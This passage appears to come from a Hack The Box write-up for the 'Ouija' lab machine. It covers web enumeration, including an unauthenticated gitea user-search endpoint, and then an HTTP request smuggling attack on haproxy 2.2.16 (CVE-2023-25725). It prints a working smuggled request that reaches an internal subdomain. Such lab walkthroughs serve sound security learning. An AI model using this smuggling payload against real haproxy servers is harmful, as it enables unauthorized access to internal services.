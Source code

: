 ![ouija1](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/ed494b82-e786-4cd7-9ed3-391ca70b0505)

Inspecting the source code in Firefox, we find another subdomain on http://gitea.ouija.htb

![ouija2](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/d4324a65-52cb-49c5-9da8-1f334c06951a)

Browse the gitea server, register a new account and log in. List the instructions on how the ouija server has been set up. It uses an haproxy version 2.2.16.

![ouija3](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/8da9fb15-017c-4520-9095-c2644fb22bd4)

Finally, enumerate the API running on http://gitea.ouija.htb/api/swagger<br>
Most of the endpoints require an authentication token but the endpoint `/users/search` dumps the username `leila` without authentication.

![ouija4](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/5f8ddfee-2e85-48a2-857d-8810a0178a77)

Take note of this username and move forward.

### PHASE 2: User
Looking for `haproxy 2.2.16` vulnerabilitites, we find out it is vulnerable to HTTP request smuggling <br>
https://www.haproxy.com/blog/february-2023-header-parser-fixed<br>
https://www.cvedetails.com/cve/CVE-2023-25725/<br>
<br>
There are good articles to investigate what HTTP request smuggling is.<br>
https://medium.com/nerd-for-tech/http-request-smuggling-part-1-concepts-b89bfe17b210<br>
https://medium.com/nerd-for-tech/http-request-smuggling-part-2-tl-ce-exploit-ec1171a88459<br>
<br>
The `haproxy` runs in the `ouija.htb` server for traffic balancing purposes. We can abuse the HTTP CE.TE smuggling vulnerability to reach the `dev.ouija.htb` subdomain.
Payloads can be smuggled with burpsuite, just deactivate the automatic update of the content length.

![ouija5](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/111e9d48-de54-4aa1-b5ea-eb7c0e37eb11)

The following payload allows reaching the `dev.ouija.htb` subdomain using HTTP smuggling.
```markdown
POST /index.html HTTP/1.1
Host: ouija.htb
Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Length: 40

GET http://dev.ouija.htb HTTP/1.1
x:Get / HTTP/1.1
Host: ouija.htb
```
In the response we find 2 interesting files:<br>
http://dev.ouija.htb/editor.php?file=app.js<br>
http://dev.ouija.htb/editor.php?file=init.sh<br>

